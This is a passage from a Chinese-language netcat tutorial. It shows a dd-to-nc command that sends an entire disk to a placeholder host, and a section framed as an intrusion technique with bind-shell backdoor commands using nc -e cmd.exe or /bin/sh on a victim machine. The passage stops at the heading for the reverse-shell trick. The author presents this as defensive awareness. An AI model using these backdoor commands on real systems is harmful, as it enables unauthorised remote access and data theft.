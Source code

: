 ```
dd if=/dev/sda | nc x.x.x.x xxx
```

　　第二条命令中的 `xxx` 是端口号，要与第一条命令中的端口号相同；第二条命令中的 `x.x.x.x` 是【主机 B】的 IP 地址。

### ◇补充说明：nc 的性能优势

　　如今的存储设备越来越大了。“磁盘” 或者 “分区”，动不动都是几百个 GB，这时候 nc 的【性能优势】就体现出来啦。  

★招数 8：（入侵手法）用 nc 开启【被动】连接型后门
-----------------------------

　　既然聊 netcat，很自然地会聊到 “黑客 / 骇客” 的入侵招数。  
　　做这方面的介绍，并【不是】为了传授入侵技巧；而是为了——让那些注重安全性的同学，能做到 “知己知彼”。

### ◇使用场景

　　假设 1：你使用的浏览器存在某个安全漏洞，并且该漏洞会让攻击者获得【执行代码】的机会。  
　　假设 2：你在某个公共场合使用某个 wifi 热点上网。遗憾的是，这个热点是攻击者设置的陷阱。  
　　假设 3：设置该陷阱的攻击者，正好也知道：如何利用上述漏洞。  
　　当这三个假设都成立，攻击者就可以获得在你【本机】执行代码的机会。这时候，攻击者可以下载一个 nc 到你本机，然后用 nc 开启一个【被动】连接型后门。所谓的 “【被动】连接型” 就是指——nc 开启对外监听端口。  
　　在该场景中，因为攻击者与你处于【同一个局域网】，攻击者自然能从自己的机器访问到你本机的 nc 后门。

### ◇原理

　　为了让后门能工作，通常会使用 nc 的 `-e` 选项，该选项的 “选项值” 是一个可执行文件的路径。  
　　设置了该选项之后，当处于监听状态的 nc 接受到某个连接，会启动 “选项值” 对应的可执行文件（并得到某个进程），nc 会把该进程的 “标准输入输出” 与网络通讯【对接】。  
　　为了让这个后门用起来足够爽，攻击者通常会让 nc 去启动一个【shell 进程】。对 Windows 系统而言，就是 `cmd.exe`；对 POSIX 系统（Linux or UNIX）而言，就是 `/bin/sh`  
　　在这种情况下（nc 挂载 shell），攻击者远程连入 nc 的端口，就可以直接在这个 shell 上进行各种操作，其效果类似于 SSH 或（老式的）telnet。

### ◇入侵方法

**步骤 1**  
　　如果受害者是 Windows 系统，只须如下命令就可以开启一个后门（其中的 `xxx` 是端口号）

```
nc.exe -l -p xxx -e cmd.exe
```

　　如果受害者是 POSIX 系统（Linux or UNIX），则用如下命令：

```
nc -l -p xxx -e /bin/sh
```

**步骤 2**  
　　后门创建好之后，攻击者在自己机器上也运行 nc（客户端 nc），然后连接到作为后门的 nc（服务端 nc）。一旦连上之后，攻击者就可以在自己的 nc 上看到对方（受害者机器）的 shell 提示符。

★招数 9：（入侵手法）用 nc 开启【主动】连接型后门
-----------------------------

### ◇原理

